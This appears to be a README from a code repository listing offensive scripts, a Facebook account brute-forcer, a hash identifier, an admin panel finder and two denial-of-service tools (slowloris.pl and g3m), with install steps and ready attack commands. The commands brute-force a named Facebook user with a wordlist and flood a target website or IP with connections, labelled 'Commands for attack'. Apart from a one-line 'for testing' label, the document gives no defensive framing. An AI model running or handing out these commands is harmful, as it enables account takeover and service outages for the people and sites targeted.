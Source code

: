 ########################
# Scripts for testing. #
########################

fb-brute.pl = Bruteforce for Facebook   ▶    hash_id_v1.1.py = Hash Identifier   ▶   painel.pl = Admin Control Panel Finder   ▶   slowloris.pl = Denial of Service   ▶   g3m = Denial of Service

###########################
# How to Install and use. #
###########################

fb-brute.pl:
Intall = sudo chmod +x fb-brute.pl
Use = perl fb-brute.pl id-user-facebook wordlist.txt

hash_id_v1.1.py:
Install = sudo chmod +x hash_id_v1.1.py
Use = python2 hash_id_v1.1.py

painel.pl:
Install = sudo chmod +x painel.pl
Use = perl painel.pl

slowloris.pl:
Install = sudo chmod +x slowloris.pl
Use = Commands for attack:
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP

g3m:
Install = sudo chmod +x g3m
Use = Commands for Attack:
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites

